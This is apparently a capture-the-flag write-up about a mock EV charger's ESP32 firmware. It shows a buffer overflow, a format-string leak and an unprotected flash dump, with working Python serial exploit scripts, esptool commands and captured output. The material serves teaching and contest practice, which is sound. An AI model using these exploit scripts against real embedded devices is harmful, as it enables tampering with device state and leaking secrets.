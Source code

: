# Vulnerability #1 Buffer Overflow

The message customization menu contains a buffer overflow. The variable itself has 20 bytes.

```c
#define MAX_INPUT_LEN 128

int batteryLevel = 100;
uint8_t message[20] = "EV Charger 0.12\0";
```

When we select menu 1, we call `readInput` with `message`.

```c
void handleMenuSelection() {
  switch (menuOption) {
	case 1:
      readInput(message);
```	  

And `readInput` will read up to `MAX_INPUT_LEN` characters.

```c
int readInput(uint8_t *buf) {
  Serial.print("Enter (# to finish): ");
  int i=0;
  while(i<MAX_INPUT_LEN-1) {
```

Therefore, we will overflow after the 20th character. 
The overflow will occur in the variable just above, which happens to be `batteryLevel` (and more).
We wish to modify the battery level to a negative value, so we need to write precisely 20 characters and then 4 bytes for batteryLevel: `\xf6\xff\xff\xff` is -10 for example.


```python
import serial
import time
s = serial.Serial("/dev/ttyACM0",baudrate=115200, timeout=0.2)


s.write(b"\n")
print(s.read_until(b"Select an option:"))
s.write(b"1")
time.sleep(1)
print(s.read_until(b":"))
s.write(b"A"*20+b"\xf6\xff\xff\xff"+b"#")
time.sleep(1)
print(s.read_all())
```

# Vulnerability #2 Format String

The message customization also has a format string vulnerability!
Indeed, `readInput` will accept any character (apart `#` which terminates the string), and we display the message without any prior check at `updateBatteryDisplay()`:

```c
M5.Display.printf((const char*)message); 
```

Consequently, we can input format strings such as `%p`, `%x`, `%s` etc to read variables.
You'll find out that using 8 `%p` displays the flag.

```python
import serial
import time

s = serial.Serial("/dev/ttyACM0",baudrate=115200, timeout=0.2)
s.write(b"\n")
print(s.read_until(b"Select an option:"))
s.write(b"1")
time.sleep(1)
print(s.read_until(b":"))
sent = b'A '+ b'%p '*8 +b'#'
s.write(sent)
time.sleep(1)
received = s.read_all()
print(received)
```

Result: 
```
b' A %p %p %p %p %p %p %p %p \r\nA 0x0 0x7f 0x3ffc2c50 0x3ffb21ec 0xd2083 0x5 0x3ffc256c 0x3ffc25b4 \nStatus: Charges=0 Battery=622882853%\nph0wn{0rganiZers_are_talenT3D}\nMenu:\r\n1. Custom message\r\n2. Admin\r\nSelect an option: '
```

# Vulnerability #3: unprotected memory dump

The strings in the firmware are not protected. If we dump the firmware and search for strings, we find the flag.

```
$ esptool.py -b 921600 --port /dev/ttyACM0 read_flash 0x00000 0x400000 flash_4M.bin
$ strings flash_4M.bin | grep ph0wn
```

A possible solution is to encrypt the flag in the firmware and decrypt it when it needs to be displayed. Then, the firmware would need to be reversed to (1) understand the encryption algorithm, (2) pick up the decryption key and (3) decrypt the encrypted flag.
